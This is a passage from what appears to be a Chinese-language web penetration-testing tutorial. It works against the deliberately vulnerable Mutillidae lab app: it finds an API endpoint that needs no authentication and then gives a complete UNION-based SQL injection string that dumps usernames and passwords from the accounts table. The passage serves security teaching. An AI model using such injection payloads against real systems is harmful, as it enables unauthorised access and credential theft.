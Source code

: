 图 4.61 – 查看请求结果

1.  现在，为了确定作为未认证用户是否可以看到这些数据，移除**PHPSESSIONID** Cookie 的值并重新发送请求。太神奇了！进行这些操作不需要认证令牌！我们刚刚发现了一个未认证的 API 调用！这是一个重大发现：

![图 4.62 – 移除认证令牌；注意结果仍然返回](img/B21173_Figure_4.062.jpg)

图 4.62 – 移除认证令牌；注意结果仍然返回

1.  让我们看看还能对这个未认证的 API 端点做些什么。使用在用户账户管理页面提供的 SQL 注入字符串，尝试导出整个用户表。

1.  在**username=**后追加以下值：

    ```
    user'+union+select+concat('The+password+for+',username,
    '+is+',+password),mysignature+from+accounts+--+
    ```

新的 URL 应该如下所示：

```
/mutillidae/webservices/rest/ws-user-account.php?username=user'
+union+select+concat('The+password+for+',username,'+is+',
+password),mysignature+from+accounts+--+
```

1.  在修改**用户名**参数后，点击**发送**按钮。你的请求应该如下所示：
